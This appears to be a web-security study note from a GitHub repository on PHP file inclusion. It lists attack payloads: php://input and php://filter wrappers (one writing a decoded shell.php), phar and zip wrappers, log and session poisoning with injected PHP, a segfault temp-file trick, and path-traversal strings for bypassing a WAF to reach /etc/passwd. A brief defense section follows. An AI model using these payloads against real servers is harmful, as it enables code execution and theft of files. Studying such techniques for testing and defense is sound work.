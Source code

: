 # File Inclusion  
When PHP includes a file, PHP will execute the included file as PHP script no matter what kind of the file type is.  

PHP:  
*  [Environment](#environment)  
*  [Methods to include](#methods-to-include)  
*  [WAF bypass](#waf-bypass)  

Gogs:  
*  [Inject path to session id](#inject-path-to-session-id)  
  
Conclusion:  
*  [Defense](#defense)  
*  [Reference](#reference)    

# Environment  
Here I would put some settings that you need to know before starting on Local File Inclusion. In `php.ini`:  
1. `allow_url_include` (default: off and makes it impossible to RFI)  
2. `session.auto_start` (default: off and makes it hard to create session)  
3. `session.upload_progress.cleanup` (default: On and makes it hard to include the session)  

# Methods to include  
File inclusion is always used to arbitrary code execution:  
1. pseudo protocol  
```php
php://input
// Condition：allow_url_include = on
?file=php://input
POST data: xxx

php://filter
// get base-64 encoded source code
?file=php://filter/read=convert.base64-encode/resource=file.php
// It's important that filter can be used to handle string with various ways, please take a look at the reference#1
php://filter/write=string.strip_tags|convert.base64-decode/resource=shell.php

phar://path.zip/file.php
// php5.3.0up, parse the archived file
// Sam Thomas publish a new use of phar able to unserialize without unserialize() function, please take a look at my Unserialization part

zip://path.zip%23file.php
// php5.3.0up, work as phar://, but need absolute path, and need to encode # as %23
```  
[List of Available Filters](http://php.net/manual/en/filters.php)

2. Session inclusion  
* [include tmp with phpinfo](https://github.com/vulhub/vulhub/tree/master/php/inclusion) -> `/tmp/sess_SESSIONID`  
* 🍊[Hitcon2018 ONE LINE PHP CHALLENGE](https://blog.orange.tw/2018/10/hitcon-ctf-2018-one-line-php-challenge.html)[Session Upload Progress ](http://php.net/manual/en/session.upload-progress.php)  
If you provide the `PHP_SESSION_UPLOAD_PROGRESS` in **multipart** POST data, PHP will enable the session for you!  

3. Log inclusion  
If client has permission to read the log  
```php
ssh '<?php phpinfo();?>'@remotehost

GET /<?php phpinfo();?> HTTP/1.1
```  
include `/var/log/apache2/access.log` or `error.log`, `/var/log/httpd/access_log`, `/etc/httpd/logs/access_log`, `/usr/local/nginx/logs`    

4. Include temporary file with segmentation fault [php 7.1.x<20](https://github.com/php/php-src/blob/PHP-7.1.0/ext/standard/filters.c#L277)  
In the above version, `php://filter/string.strip_tags/resource=` will cause to segmentation fault and temporary files cannot be cleaned up. [My analysis of the detail](https://github.com/shinmao/Web-Security-Learning/blob/master/LFI/LFI-with-segmentation-fault.pdf)  
```php
// assume that I can control the parameter of file function
include($_POST['file']);
```  
[Here is the script of bruteforce which can help to get temp filename](https://github.com/shinmao/Web-Security-Learning/blob/master/LFI/gen_tmp.py)

# WAF bypass  
* Relative path bypass  
WAF usually detect **continuous** multiple `../`
```php
// according to parsing path

// not change
/./ not change
///./..//.//////./   -> use with conbination
```  
* Absolute path bypass, `/etc/passwd` would be blocked  
```php
/aaa/../etc/passwd
/etc/./passwd
```  

# Inject path to session id
[CVE-2018-18925](https://github.com/vulhub/vulhub/tree/master/gogs/CVE-2018-18925)  
The cause of this bug is that framework use file as the session provider, but not all framework do the same things. You can try to include the other file as fake session.  

# Defense  
Make a conclusion of the requirement above, we can get the following mitigation  
* php `open_basedir`  
* read permission  
* filter of dangerous characters  

# Reference  
1. [Phith0n 谈一谈php://filter的妙用](https://www.leavesongs.com/PENETRATION/php-filter-magic.html)  
2. [LFI with phpinfo assistance](https://www.insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf)  
3. [php文件包含漏洞](https://chybeta.github.io/2017/10/08/php%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E/?fbclid=IwAR0537cUHx0RuYwbjdVLudlitdkofr5HHhqMcafXW3aoWqlUoJ_lMRAsnk8)
